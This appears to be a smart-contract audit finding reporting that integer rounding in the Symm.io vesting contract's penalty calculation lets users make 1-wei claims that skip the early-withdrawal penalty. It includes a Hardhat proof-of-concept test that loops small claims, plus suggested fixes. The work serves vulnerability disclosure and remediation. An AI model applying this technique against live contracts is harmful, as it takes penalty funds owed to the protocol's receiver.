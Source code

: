 Scruffy Shadow Whale

Medium

# Integer Rounding in Penalty Calculation Allows Users to Bypass Early Withdrawal Penalties

### Summary

Due to integer rounding in the penalty calculation, users can bypass the early withdrawal penalty by making multiple small claims of 1 wei each, allowing them to extract their entire vested allocation (or only a fraction) without incurring the intended penalty. While this attack requires numerous transactions, it remains economically viable on Layer 2 solutions like Base where transaction costs are lower and batching is possible.

### Root Cause

The [Vesting.sol::_claimLockedToken()](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L290) function calculates penalties for early withdrawals using integer division:

`uint256 penalty = (amount * lockedClaimPenalty) / 1e18;`

When a user claims exactly 1 wei and the `lockedClaimPenalty` is set to 50% (5e17) which is a hardcoded value in the [SymmVesting::initialize()](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/SymmVesting.sol#L77) function, the calculation becomes:

`penalty = (1 * 5e17) / 1e18 = 0.5`

Since Solidity performs integer division, this value rounds down to 0, effectively allowing the user to claim tokens without any penalty. By making multiple small claims of 1 wei each, a user can withdraw their entire vested amount penalty-free.

While executing thousands of transactions might seem impractical due to gas costs, this attack becomes economically viable on Layer 2 solutions like Base where:

1. Transaction costs are significantly lower
2. Transactions can be batched or bundled
3. If the Token price of $SYMM skyrockets and outweights the gas costs

### Internal Pre-conditions

1. Vesting contract needs to be deployed
2. Vesting Plans need to be setup via setupVestingPlans()

### External Pre-conditions

- Token price of $SYMM must outweight the gas price

### Attack Path

There are two scenarios to exploit this: 

1. The attacker calls claimLockedToken() directly to withdraw locked SYMM tokens.
2. The attacker calls SymmVesting::addLiquidity() to add liquidity by converting a portion of SYMM vesting into SYMM LP tokens. This will lock the LP tokens in the Vesting contract and the attacker can now start to withdraw these tokens via multiple smaller withdrawals.

### Impact

1. Users can extract any amount of their vested tokens without paying any penalty, regardless of the vesting schedule or intended lock period.
2. Loss of penalty fees that would otherwise go to the lockedClaimPenaltyReceiver


### PoC

Paste below PoC in `vesting.behavior.ts` and run it with `npx hardhat test --grep "drainWithoutPenalty vulnerability"`

```Javascript
	export function ShouldBehaveLikeVesting() {
	let context: RunContext
	let symmVesting: SymmVesting
	let vestingPlanOps: VestingPlanOps__factory
	let admin: Signer, user1: Signer
	let symmToken: Symmio

	beforeEach(async () => {
		context = await loadFixture(initializeFixture)
		symmVesting = await context.vesting
		vestingPlanOps = await ethers.getContractFactory("VestingPlanOps")
		symmToken = context.symmioToken
		admin = context.signers.admin
		user1 = context.signers.user1
	})

	describe("drainWithoutPenalty vulnerability", () => {
		beforeEach(async () => {
			await context.symmioToken.connect(context.signers.admin).mint(await symmVesting.getAddress(), 5000)
			const users = [await context.signers.user1.getAddress()]
			const amounts = ["1000"]
			const now = new Date()
			const startTime = Math.floor(now.getTime() / 1000)
	
			now.setMonth(now.getMonth() + 9)
			const endTime = Math.floor(now.getTime() / 1000)
	
			await symmVesting.setupVestingPlans(await context.symmioToken.getAddress(), startTime, endTime, users, amounts)
		})
	
		it("Should allow users to drain without penalty via multiple small claims", async () => {
			const user = context.signers.user1
			const userAddress = await user.getAddress()
			const token = await context.symmioToken.getAddress()
			
			// Check initial balance
			const balanceBefore = await context.symmioToken.balanceOf(userAddress)
			await expect(balanceBefore).to.equal(0)
			
			// Get user's vested amount
			const plan = await symmVesting.vestingPlans(token, userAddress)
			const userAmount = plan.amount
			
			// Make many small claims
			const amount = 1
			for (let i = 0; i < 1000; i++) {
				await symmVesting.connect(user).claimLockedToken(token, amount)
			}
			
			// Check final balance
			const balanceAfter = await context.symmioToken.balanceOf(userAddress)
			console.log("Balance after claims:", balanceAfter.toString())
			
			// User should receive their full amount without the expected penalty
			await expect(balanceAfter).to.equal(userAmount)
		})
	})
        }
```

### Mitigation

To fix this vulnerability, implement one of the following solutions:

1. Enforce a minimum claim amount: Require that claims be above a certain threshold where the penalty calculation would result in at least 1 wei.

```Solidity
function _claimLockedToken(address token, address user, uint256 amount) internal {
    // First, claim any unlocked tokens.
    _claimUnlockedToken(token, user);
    VestingPlan storage vestingPlan = vestingPlans[token][user];
    if (vestingPlan.lockedAmount() < amount) revert InvalidAmount();
    
    // Ensure minimum claim amount to prevent penalty bypass
    uint256 minClaimAmount = 1e18 / lockedClaimPenalty + 1;
    if (amount < minClaimAmount) revert ClaimAmountTooSmall();
    
    // Rest of the function remains the same
    // ...
}
```

2. Round up instead of down: Ensure that even the smallest claim incurs at least 1 wei in penalty if the calculated value is non-zero.

```Solidity
function _claimLockedToken(address token, address user, uint256 amount) internal {
     // ---- SNIP -----
    
    // Calculate penalty with ceiling for non-zero values
    uint256 rawPenalty = amount * lockedClaimPenalty;
    uint256 penalty = rawPenalty / 1e18;
    // If there's a remainder and penalty would be 0, make it at least 1
    if (penalty == 0 && rawPenalty > 0) {
        penalty = 1;
    }
}
```